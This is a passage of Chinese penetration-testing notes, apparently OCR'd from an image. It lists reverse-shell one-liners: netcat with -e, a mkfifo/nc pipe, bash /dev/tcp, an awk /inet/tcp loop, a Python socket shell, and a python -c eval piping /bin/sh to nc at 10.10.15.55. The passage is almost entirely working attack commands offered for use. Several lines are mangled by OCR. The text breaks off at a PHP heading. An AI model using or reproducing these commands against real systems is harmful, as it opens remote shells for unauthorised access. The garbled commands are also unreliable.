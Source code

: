方法三：

```
`靶机执行：netcat -lvp 5555 -e /bin/sh` `攻击机执行：nc 靶机IP 靶机端口`
```

方法四：

```
`攻击机执行：nc-lvvp 5555``靶机执行：nc 攻击机IP 端口 -t -e /bin/bash`
```

方法五：

```
mkfifo /tmp/backpipe1 | /bin/sh0</tmp/backpipe1 | nc回连地址6666 1 > /tmp/backpipe1
```

并不是所有的NC都有-e选项……有些设备可能/bin下面没有nc，但是busybox可以啊

bash 反弹shell

* * *

```
`服务端：bash -i >& /dev/tcp/公网IP/公网端口 0>&1` `客户端：nc -lvvp 端口`
```

加密流量参看权限维持笔记

利用awk、gawk

* * *

1. 攻击机执行监听

2. 靶机执行 

```
`awk` `'BEGIN{s="/inet/tcp/0/192.168.1.128/8080";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'`
```

Python 反弹shell

* * *

```
`import socket,subprocess,os;``s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);` `s.connect(("公网IP"，目标端口));` `os.dup2(s.fileno(),0);` `os.dup2(s.fileno(),1);` `os.dup2(s.fileno(),2);` `p=subprocess.call(["/bin/sh","-i"]);`
```

命令行直接执行 python -c '代码'

```
eval(__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.55 23333 >/tmp/f'))
```

php反弹shell

* * *
